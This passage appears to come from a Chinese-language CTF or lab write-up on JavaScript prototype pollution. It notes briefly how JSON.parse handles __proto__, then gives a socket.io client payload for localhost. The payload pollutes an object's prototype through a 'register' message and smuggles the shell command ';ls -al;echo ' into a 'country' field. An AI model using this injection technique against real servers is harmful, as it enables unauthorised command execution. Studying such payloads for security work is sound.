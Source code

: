 ```javascript
```

需要注意，原型链被污染的只有`newObj`，通过`var payload = '{"__proto__":{"oops":"It works !"}}';
var obj = JSON.parse(payload);`这种方法是没有办法修改`obj`的原型的，这因为是`JSON.parse`做了安全处理。



最终的payload如下:

```javascript
const io = require('socket.io-client')
const socket = io.connect('http://localhost:3000/')

socket.on('error', function (err) {
  console.log('received socket error:')
  console.log(err)
})

socket.on('message', function(msg) {
  console.log(msg.from,"[", msg.channel!==undefined?msg.channel:'Default',"]", "says:\n", msg.message);
});

socket.emit('register', `{"name":"xxx", "__proto__":{"country":"xxx';ls -al;echo 'xxx"}}`);
socket.emit('message', JSON.stringify({ msg: "hello" }));
socket.emit('join', 'xxx');
```
